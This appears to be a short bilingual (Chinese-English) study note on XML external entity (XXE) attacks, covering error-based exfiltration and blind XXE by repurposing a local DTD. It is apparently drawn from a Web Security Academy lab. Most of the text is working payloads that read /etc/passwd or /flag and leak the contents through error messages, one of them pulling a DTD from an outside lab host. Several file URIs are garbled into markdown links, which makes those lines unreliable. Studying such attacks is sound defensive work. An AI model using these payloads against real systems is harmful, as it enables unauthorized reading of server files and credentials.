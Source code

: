 

## 2.Exfiltration by error message:

e.g.

dtd file：

```xml
<!ENTITY % file SYSTEM "[file:///etc//passwd](file://etc/passwd)">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM '[file:///invalid/%file;](file://invalid/%file;)'>">
%eval;
%error;
```

下面内容发送就会返回错误信息和目标内容

```xml
<!DOCTYPE qwe [<!ENTITY % xxe SYSTEM "https://ace41f551f39382680152c320184001d.web-security-academy.net/exploit.dtd">%xxe;]>
```

so final output contains error not found /nonexistent/<output of /etc/passwd>

## 3.Blind XXE by repurposing a local DTD:

混合使用 internal and external DTD declarations时，内部dtd可以重新定义外部dtd

利用：在internal DTD里触发error-based xxe

like：

```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "[file:///usr/local/app/schema.dtd](file://usr/local/app/schema.dtd)">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "[file:///etc/passwd](file://etc/passwd)">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

定义一个local_dtd实体，包含在服务器内部的外部实体并从定义实体，使其读取文件并用过报错的方式传输文件

```xml
<?xml version="1.0"?>
<!DOCTYPE foo[
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % ISOamso '
    <!ENTITY &#x25; file SYSTEM "file:///flag">
    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;error;
'>
%local_dtd;
]>
```

